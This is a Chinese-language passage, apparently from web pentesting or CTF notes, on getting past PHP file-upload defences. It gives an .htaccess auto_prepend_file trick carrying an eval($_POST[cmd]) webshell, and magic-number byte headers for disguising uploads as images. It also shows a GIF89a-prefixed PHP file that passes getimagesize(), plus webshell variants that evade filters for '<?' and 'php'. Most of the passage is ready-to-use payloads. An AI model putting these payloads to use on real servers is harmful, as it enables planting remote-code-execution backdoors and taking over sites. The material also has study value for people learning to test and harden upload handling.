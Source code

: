 > ```
>
> `shell.png` 就会以`php`文件执行 
>
> - 利用.htaccess进行文件包含
>
> ```
> php_value auto_prepend_file ".htaccess"
> #<?php eval($_POST[cmd]);?>
> ```
>
> - 使用#注释使得.htaccess能够成功解析

### 服务器检测（文件内容检测）

#### 文件幻数检测（文件开头）

> 幻数 magic number，它可以用来标记文件或者协议的格式，很多文件都有幻数标志来表明该文件的格式。 

要绕过文件幻数检测就要在文件开头写上如下的值 

```
.jpg	FF D8 FF E0 00 10 4A 46 49 46
.gif	47 49 46 38 39 61
.png	89 50 4E 47
```

在文件幻数后面加上自己的WebShell代码就行

#### 文件相关信息检测

图像文件相关信息检测常用的是getimagesize()函数，需要把文件头部分伪造，也就是在幻数的基础上还加了一些文件信息。

> - 例如下面结构
>
> ```
> GIF89a
> (...some binary data for image...)
> <?php phpinfo(); ?>
> (... skipping the rest of binary data ...)
> ```

另一种是判断是否包含`<?`或者`php`

> - 绕过`<?`：  
>
>   ```
>   <script language='php'>@eval($_POST[cmd]);</script>
>   ```
>
> - 绕过`php`：
>
>   ```
>   <?= @eval($_POST['cmd']);?>
>   ```
